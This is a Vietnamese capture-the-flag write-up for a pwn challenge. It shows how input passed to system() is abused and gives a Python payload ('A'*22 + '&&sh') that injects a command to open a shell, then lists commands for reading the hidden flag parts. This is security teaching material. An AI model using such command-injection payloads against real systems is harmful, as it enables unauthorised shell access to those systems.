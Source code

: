 ### Write up linux command

Mở binary lên bằng ida thấy rằng biến command đc thực thi bởi system()


```C++
 system(command);
```




mà ta có thể nhập dữ liệu cho command thông qua
 
```C++
 __isoc99_scanf("%31s", command);
```
mà thấy rằng 

```C++
  qmemcpy(command, "echo \"Welcome to KCSC\"", 22);
```


tức là chỉ có 22 ký tự được đưa vào biến command trong tổng số 32 ký tự, 22 kí tự đó chính là câu lệnh 
```    
"echo \"Welcome to KCSC\""
```

vì có tận 32 được nhập vào, tức là e sẽ phải để 22 ký tự trước đó là chữ gì đó để khi chương trình chạy, câu lệnh có 22 ký tự trên
sẽ đè lên và tiếp theo sẽ là chuỗi ký tự mà chúng ta mong muốn, e sẽ chọn chỗi &&sh đằng sau để nó thực thi shell để truy cập vào hệ thống
  
   ```c++
 char command[32]; // [rsp+0h] [rbp-20h] BYREF
```

```python
payload = b'A'*22 + b'&&sh'
p.sendlineafter(b'What is your name:',payload)
 ```


khi chạy script thì shell được thực thi


![image](https://github.com/antkss/writeUP/assets/88892713/4b027d20-55f3-461d-8dbd-baf8dcd3b2a2)

### Cuỗm lấy cái flag
- Có 5 phần flag
phần 1 của flag sẽ ở trong hàm hidden của binary
```c++
int hidden()
{
  printf("Semicolon Operator in Linux");
  return printf("part 1: KCSC{Linux_");
}
```
phần 2 sẽ trong thư mục của server BTC cung cấp, dùng cat cat sẽ ra 
tiện cat luôn phần 3 và cuối cùng phần 4 sẽ ở ẩn chỉ cần ls -a là ra file .part4 sau đó cat .part4 cuối cùng là file --help muốn cat được ta chỉ cần cat ./--help là ra (./ có nghĩa là thư mục hiện tại)
